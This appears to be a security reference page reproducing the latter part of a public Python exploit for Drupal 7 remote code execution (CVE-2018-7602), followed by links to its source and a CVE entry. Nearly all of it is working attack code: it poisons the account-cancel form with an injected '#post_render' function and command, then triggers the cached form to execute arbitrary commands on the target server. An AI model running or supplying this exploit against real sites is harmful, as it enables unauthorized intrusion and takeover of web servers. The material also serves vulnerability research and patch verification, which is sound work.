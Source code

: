 ```python title="drupa7-CVE-2018-7602.py"
      user_id = user_id.split("=")[1]
    if(user_id):
      print('[*] User ID found: ' + user_id)
    print('[*] Poisoning a form using \'destination\' and including it in cache.')
    get_params = {'q': user_id + '/cancel'}
    r = session.get(target, params=get_params, verify=False, proxies=proxyConf)
    soup = BeautifulSoup(r.text, "html.parser")
    form = soup.find('form', {'id': 'user-cancel-confirm-form'})
    form_token = form.find('input', {'name': 'form_token'}).get('value')
    get_params = {'q': user_id + '/cancel', 'destination' : user_id +'/cancel?q[%23post_render][]=' + function + '&q[%23type]=markup&q[%23markup]=' + command }
    post_params = {'form_id':'user_cancel_confirm_form','form_token': form_token, '_triggering_element_name':'form_id', 'op':'Cancel account'}
    r = session.post(target, params=get_params, data=post_params, verify=False, proxies=proxyConf)
    soup = BeautifulSoup(r.text, "html.parser")
    form = soup.find('form', {'id': 'user-cancel-confirm-form'})
    form_build_id = form.find('input', {'name': 'form_build_id'}).get('value')
    if form_build_id:
        print('[*] Poisoned form ID: ' + form_build_id)
        print('[*] Triggering exploit to execute: ' + command)
        get_params = {'q':'file/ajax/actions/cancel/#options/path/' + form_build_id}
        post_params = {'form_build_id':form_build_id}
        r = session.post(target, params=get_params, data=post_params, verify=False, proxies=proxyConf)
        parsed_result = r.text.split('[{"command":"settings"')[0]
        print(parsed_result)
  except:
    print("ERROR: Something went wrong.")
    raise

def main():
  print ()
  print ('===================================================================================')
  print ('|   DRUPAL 7 <= 7.58 REMOTE CODE EXECUTION (SA-CORE-2018-004 / CVE-2018-7602)     |')
  print ('|                                   by pimps                                      |')
  print ('===================================================================================\n')

  args = get_args() # get the cl args
  pwn_target(args.target.strip(),args.user.strip(),args.password.strip(), args.function.strip(), args.command.strip(), args.proxy.strip())


if __name__ == '__main__':
  main()
```

### Ref

- [pimps/CVE-2018-7600 - Github](https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7602.py)
- [CVE-2018-7602 - cvedetails](https://www.cvedetails.com/cve-details.php?t=1&cve_id=CVE-2018-7602)

